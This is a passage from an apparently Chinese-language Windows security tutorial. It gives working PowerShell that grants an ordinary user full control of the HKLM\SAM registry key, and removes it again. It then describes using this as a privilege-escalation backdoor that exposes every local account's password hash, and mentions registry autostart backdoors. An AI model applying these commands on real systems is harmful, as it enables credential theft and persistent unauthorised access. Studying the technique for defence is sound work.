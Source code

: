 #### 2、添加用户test1对指定路径(包括当前注册表项及其子健)的完全访问权限

```
$acl = Get-Acl HKLM:\SAM
$person = [System.Security.Principal.NTAccount]"test1"
$access = [System.Security.AccessControl.RegistryRights]"FullControl"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"ObjectInherit,ContainerInherit"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.AddAccessRule($rule)
Set-Acl HKLM:\SAM $acl
```

**注：**

`$inheritance = [System.Security.AccessControl.InheritanceFlags]"ObjectInherit,ContainerInherit"`表示其子健继承当前注册表项的权限

修改注册表项`HKLM:\SAM`的ACL需要Administrator权限

修改注册表项`HKLM:\SAM\SAM`的ACL需要System权限

#### 3、移除用户test1对指定路径(包括当前注册表项及其子健)的完全访问权限

```
$acl = Get-Acl HKLM:\SAM
$person = [System.Security.Principal.NTAccount]"test1"
$access = [System.Security.AccessControl.RegistryRights]"FullControl"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"ObjectInherit,ContainerInherit"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.RemoveAccessRule($rule)
Set-Acl HKLM:\SAM $acl
```

### 利用思路：

#### 1、本地提权后门

修改注册表项`HKLM:\SAM`和`HKLM:\SYSTEM`，添加普通用户的完全访问权限

普通用户能够通过注册表项获得本地所有用户的hash，进而获得管理员权限

#### 3、本地自启动后门

修改注册表位置，添加启动项或者劫持项

## 0x05 域环境中的ACL
---

通过Active Directory Service Interfaces (ADSI)实现
